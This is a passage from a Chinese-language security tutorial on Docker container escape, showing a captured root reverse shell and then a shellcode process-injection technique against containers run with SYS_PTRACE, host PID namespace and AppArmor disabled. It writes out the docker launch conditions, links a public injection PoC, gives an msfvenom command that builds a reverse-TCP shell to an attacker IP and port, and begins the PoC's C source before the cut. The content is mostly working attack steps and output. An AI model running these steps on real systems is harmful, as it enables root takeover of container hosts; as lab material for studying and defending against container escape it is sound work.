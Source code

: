  结果：

```bash
[root@master ~]# nc -lvvp 4444
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.16.42.151.
Ncat: Connection from 172.16.42.151:39412.
id
uid=0(root) gid=0(root) groups=0(root)
```





## 3. 利用shellcode进程注入进行容器逃逸

攻击机器：172.16.42.100

靶机：172.16.42.151

带有SYS_PTRACE权限的容器还是挺多的，对于开发来说可能需要SYS_PTRACE权限进行调试

靶机启动带宿主机进程和CAP_SYS_PTRACE特权的容器

```
docker run --name test -itd --cap-add=SYS_PTRACE --pid=host --security-opt apparmor=unconfined --rm ubuntu
```

**利用成功前提：**

```
--cap-add=SYS_PTRACE
--pid=host
--security-opt apparmor=unconfined
```



获取poc：https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c

生成shellcode(如果不生成，会在靶机上生成一个终端):

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=172.16.42.100 LPORT=4444 -f c
```

替换shellcode(==注意长度#define SHELLCODE_SIZE 74，等于shellcode的大小，一定要设置为相应大小的值==）:

```c
/*
  Mem Inject
  Copyright (c) 2016 picoFlamingo
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program.  If not, see <http://www.gnu.org/licenses/>.
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

```